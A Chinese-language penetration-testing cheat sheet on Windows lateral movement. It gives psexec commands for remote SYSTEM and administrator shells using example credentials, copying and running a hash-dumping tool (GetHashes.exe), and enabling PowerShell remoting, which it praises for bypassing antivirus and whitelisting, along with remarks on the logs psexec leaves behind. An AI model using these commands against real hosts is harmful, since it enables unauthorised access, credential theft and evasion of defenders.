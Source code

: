 #### psexec

*常用命令*
```bash
###获取管理员用户权限的交互式 shell
psexec \\192.168.17.138 -u Administrator -p !@#123QWE cmd

###获取普通用户权限的交互式 shell，原因参见 LocalAccountTokenFilterPolicy,要想获取管理员权限 shell ，需要添加 -h 参数。
psexec \\192.168.17.138 -u test -p !@#123QWE cmd

###在远程系统上以 system 权限执行单条命令，有时回显只有一行，原因尚不清楚。
psexec \\192.168.17.138 -u Administrator -p !@#123QWE -s cmd /c "quser"

###在远程系统上执行 bat 脚本
psexec \\192.168.17.138 -u Administrator -p !@#123QWE c:\programdata\test.bat

###拷贝文件到远程机器并以交互方式运行，运行结束后会删除
psexec \\192.168.17.138 -c C:\Users\test\Desktop\GetHashes.exe
```

*其它参数*

```bash
–accepteula 第一次运行会弹框,输入这个参数便不会弹框
-s 以 “nt authority\system” 权限运行远程进程
-h 如果可以，以管理员权限运行远程进程
-d 不等待程序执行完就返回，请只对非交互式应用程序使用此选项
\\ip 可以替换成 @ip.txt (存放多个 ip 的文本)，可以批量执行命令
```

*工具说明*
- 需要远程系统开启 ADMIN$ 共享
- 建立 ipc 连接后可以不指定用户名和密码
- 不能仅拷贝文件不执行，只需要拷贝时可以建立 ipc 连接后c opy
- 在启动psExec建立连接之后，远程系统上会被安装一个服务：PSEXESVC。安装服务会留下日志，而且psexec退出时有可能服务删除失败，所以不推荐使用 psexec。

#### PsRemoting

PowerShell远程命令执行基于WinRM。WinRM指的是Windows远程管理服务，它会监听HTTP(5985)、HTTPS(5986)，不过此服务除了Windows Server 2012及R2默认启用外，其他默认都是禁用的。管理员为了方便对服务器的远程管理，也许将此端口开启，这种事就像内网弱口令一样，做渗透嘛，什么奇迹都有可能发生。 

利用PowerShell渗透可以绕过杀软、绕过白名单防护设备，并且还可以得到返回的数据，简直是杀人越货神器。默认禁用PS。

```bash
#先开启执行策略
set-executionpolicy unrestricted
#在目标机器上开启ps远程功能
enable-psremoting
#开启远程连接
Enter-PSSession 192.168.200.20 -Credential  administrator
```
